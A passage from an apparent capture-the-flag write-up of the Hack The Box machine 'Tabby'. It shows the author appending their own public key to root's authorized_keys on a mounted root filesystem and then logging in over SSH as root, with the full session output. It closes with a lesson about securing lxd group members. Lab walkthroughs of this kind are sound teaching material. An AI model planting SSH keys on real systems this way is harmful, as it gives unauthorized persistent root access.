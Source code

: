 ```text
authorized_keys  id_rsa           id_rsa.pub
/mnt/root/root/.ssh # echo 'ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYA
AAAIbmlzdHAyNTYAAABBBJNKfSnisGKKi9utMx0QaRdDaA6OMUdff324/lsfm3Niiqes2/XqzGbIiyO8
MGa/fifvqNppFIRSbS10PhTojw0= zweilos@kali' >> authorized_keys
```

so I tried to add my public key and ssh in

```text
┌──(zweilos㉿kali)-[~/htb/tabby]
└─$ ssh -i ash.key root@10.10.10.194        
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 12 Oct 2020 11:13:33 PM UTC

  System load:             0.0
  Usage of /:              34.0% of 15.68GB
  Memory usage:            44%
  Swap usage:              0%
  Processes:               229
  Users logged in:         1
  IPv4 address for ens192: 10.10.10.194
  IPv4 address for liquid: 10.84.102.1
  IPv6 address for liquid: fd42:cd51:1c76:426c::1
  IPv4 address for lxdbr0: 10.192.134.1
  IPv6 address for lxdbr0: fd42:a03c:fcd2:592f::1


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Jun 17 21:58:30 2020 from 10.10.14.2
root@tabby:~# id && hostname
uid=0(root) gid=0(root) groups=0(root)
tabby
```

now I was happy and satisfied that I had truly owned the machine. I was still not entirely happy with how easy the root privesc was, but it was a good learning experience to know to secure members of the `lxd` group!

